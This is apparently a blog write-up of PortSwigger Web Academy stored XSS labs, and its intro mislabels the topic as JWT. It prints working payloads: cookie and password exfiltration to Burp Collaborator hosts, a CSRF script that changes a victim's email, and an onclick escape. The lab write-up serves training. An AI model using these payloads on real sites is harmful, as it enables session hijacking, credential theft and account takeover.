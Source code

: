 ```yaml
---
title: (Portswigger/WebAcademy) - Stored Cross-Site Scripting (XSS)
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-01-25 09:00:00 +0200
categories: [Web Application, Cross Site Scripting]
tags: [Notes, Cross Site Scripting, Stored XSS, Portswigger]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Intro
This post/writeup is all about the JWT Token Vulnerabilities.

I'll be using primarily [Portswigger Web Academy](https://portswigger.net/web-security/jwt) Labs, but i do intent do throw other labs and writeups here as well.

To learn more on the topic, please visit the article linked above at Portswigger's.

## TOC

# Lab: Stored XSS into HTML context with nothing encoded

> This lab contains a stored cross-site scripting vulnerability in the comment functionality.
> 
> To solve this lab, submit a comment that calls the alert function when the blog post is viewed.

This is the webpage that we get on after we spin the lab.

![picture 1](/assets/images/c89ad083d0dfbc6bf908dee03f3b85576fec9ebd6173fb6b404523c35c5d80e7.png)  

We can send a post.

![picture 2](/assets/images/b031e33dd7fe51dd43480a4dd071803536d0795eb5608944dd97f82f19c204aa.png)  

Alert triggers on `Comment` entry:

![picture 3](/assets/images/03597b44f2184b36720316eb36fc70a886f1dacd05813a8c4e9d50a793a13804.png)  

Source Code
```html
<section class="comment">
  <p>
    <img src="/resources/images/avatarDefault.svg" class="avatar">                            
    <a id="author" href="http://&lt;script&gt;alert(3)&lt;/script&gt;.com">test&lt;script&gt;alert(2)&lt;/script&gt;</a> | 27 January 2023
  </p>
  <p><script>alert(1)</script></p>
  <p></p>
</section>
```

# Exploiting cross-site scripting to steal cookies
**Collaborator has to be used in order to solve the lab**
> This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

Webpage looks like in the previous lab.

We can trigger XSS in the `Comment` section.

![picture 4](/assets/images/207ea1c0215ff613634222a0788608ef5d3b3036d263a45d838dff43c35dd32d.png)  

Cookie will be printed in the alert popup.

![picture 5](/assets/images/dfa0f7dced73cca96f7ccd9020d0535652a8daa0ca86b3394b8a8940aebbe788.png)  

As we now need to exfiltrate the token, we'll need to use payload that will send that token to Burps Collaborator.

```
<script>location='http://iyk9morvj5u0hqdrwttw8300frli98xx.oastify.com/c='+document.cookie;</script>
```

We should soon see an entry in our Collaborator.

![picture 7](/assets/images/ccf5b54528ffc0de04cfd6fe3b61394e68582f7596e839821a832c568a002ad3.png)  

We can now simply change `session` token with the one found in Collaborator.

![picture 6](/assets/images/d87e266a5bc8a745214dadedbafddec619288d01d508bc10afe3f07f026ca1ad.png)  

# Exploiting cross-site scripting to capture passwords
**Collaborator has to be used in order to solve the lab**

> This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

Lab looks exactly the same as the previous ones. We can send posts where XSS vulnerability resides.

First we have to find a XSS:

![picture 1](/assets/images/380f214820fd243663c105a8103b8d96c407ff27dce6f11e8b3923d8e6ebb82f.png)  

This fires an alert.

To read the stored passwords, following payload will be used.

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length) fetch('https://b5hjav637onob24mud688qqf46axyqmf.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

![picture 8](/assets/images/1abcc075df1dc799630ce9a219c1cb6b366fccf029333c02d5f0adec91a0f95a.png)  

Let's add a comment. We should get a callback from a victim:

![picture 2](/assets/images/7a657e5733a65cfd26fd1b85d09f385255cee4785e20fb8beff919bb3149bd45.png)  

Log in and finish the lab.

# Exploiting cross-site scripting to perform CSRF
> This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.
> 
> You can log in to your own account using the following credentials: `wiener:peter`

Same as in the previous lab, there is a Stored XSS in the comment field.

![picture 3](/assets/images/98d18a2e7d0867853efde02b03327465adbd5bf74a1f722c847aba59aad2cd82.png)  

This is the payload which will fetch the CSRF token and change the email from victim.

```html
<script>
function xss(url, text, formData) {
  fetch(url+"/change-email", {
  method: "POST",
  body: formData
  })
}

function fetchUrl(url, email){
	fetch(url).then(r => r.text().then(text => {
		  xss(url, text, 'email='+email+'&csrf='+text.match(/csrf" value="([^"]+)"/)[1]);
	}))
}

fetchUrl("https://0a87006804525819c1b3cb09006500cf.web-security-academy.net/my-account", "test@test.de");
</script>
```

![picture 4](/assets/images/51b82672a4c0bd2ff9625a5246b66ecbdf939f637643e15daac368227d2c56cb.png)  

# Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

> This lab contains a stored cross-site scripting vulnerability in the comment functionality.
> 
> To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.

If we add a comment and if we check the source code afterwards, we'll notice that our email addrss get's embedded into HTML like this

```html
<p>
  <img src="/resources/images/avatarDefault.svg" class="avatar">
    <a id="author" href="http://test.de" onclick="var tracker={track(){}};tracker.track('http://test.de');">test</a> 
  | 24 March 2023
</p>
```

If we add single or double quotes, they will get escaped 

```html
<a id="author" href="http://\'&quot;alert(3).com" onclick="var tracker={track(){}};tracker.track('http://\'&quot;alert(3).com');">a</a>
```

Payload used in Webpage field: `http://a?&apos;-alert(1)-&apos;`

And this is how it got escaped:

```html
<a id="author" href="http://a?'-alert(1)-'" onclick="var tracker={track(){}};tracker.track('http://a?'-alert(1)-'');">s</a>
```

Alert has fired and lab has been solved.

![picture 5](/assets/images/57e85b8312bdcbd2c97324e3cb3c2df3e43d693ca98677ed0e2cd28948ef2e1b.png)  
